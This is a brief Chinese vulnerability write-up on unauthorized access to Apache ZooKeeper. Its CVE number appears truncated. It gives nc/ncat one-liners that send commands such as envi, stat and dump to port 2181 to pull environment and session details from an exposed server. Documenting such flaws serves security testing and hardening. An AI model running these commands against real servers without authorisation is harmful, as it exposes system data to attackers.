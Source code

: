 ```yaml
---
Title: Apache ZooKeeper 未授权访问漏洞 CVE-2014-085
---
```


# Apache ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

<a-checkbox checked>Apache ZooKeeper</a-checkbox></br>

## 漏洞复现

Apache  ZooKeeper 默认开放`2181端口` ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![98517179-604b-45d3-8f08-88ac223c1dd7](../../../.vuepress/public/img/98517179-604b-45d3-8f08-88ac223c1dd7.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```